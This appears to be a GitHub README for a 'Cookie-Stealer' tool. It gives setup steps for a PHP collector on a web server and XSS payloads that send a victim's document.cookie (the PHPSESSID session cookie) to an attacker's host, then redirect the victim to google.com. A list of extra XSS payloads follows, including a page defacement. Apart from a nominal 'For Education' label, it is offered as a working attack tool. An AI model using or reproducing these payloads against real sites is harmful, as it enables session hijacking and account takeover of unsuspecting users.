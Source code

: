 # Cookie-Stealer

### This Basic Script Let you get "Take" The Cookie of user From **HTTP** Site...

<h4>Installation</h4>

**Linux**
```
1. git clone https://github.com/mahmoudashraf1344/Cookie-Stealer.git
2. mkdir /var/www/html/cookies
3. cp Cookie-Stealer /var/www/html/cookies
4. cd /var/www/html/Cookie-Stealer

```
##### Alert **You can do what you want i just did a Directory Called **cookies** because just for Organizing my own files..**
<h2>How To Use It</h2>

1. The File Called **cookiesteal.php** has a parameter **c** the **document.cookie** is for seaching in web app doc to get us the cookie "**PHPSESSID**"
2. Example of xss inject `<script>window.location = "http://Your Domain or Localhost/cookie/cookiesteal.php?c=" + document.cookie;</script>`
3. How to inject A **Javascript** Payload in inpute? Example `<script>window.location = "http://192.168.1.3/cookie/cookiesteal.php?c=" + document.cookie;</script>`
4. after injected the xss payload it will take the user to `google.com` page you can change it whatever you want the original is`header("Location: http://www.google.com/");` i can change it to facebook like this `header("Location: http://www.facebook.com/");`


### XSS Payload For Education:->?>

```
- <script>alert(1)</script>
- <img src=x onmouseover=confirm(1)>
- <svg onload=prompt("xss")>
- ' onerror='alert(1)'
- <script>document.body.innerHTML="Hacked By Me"</script>
```
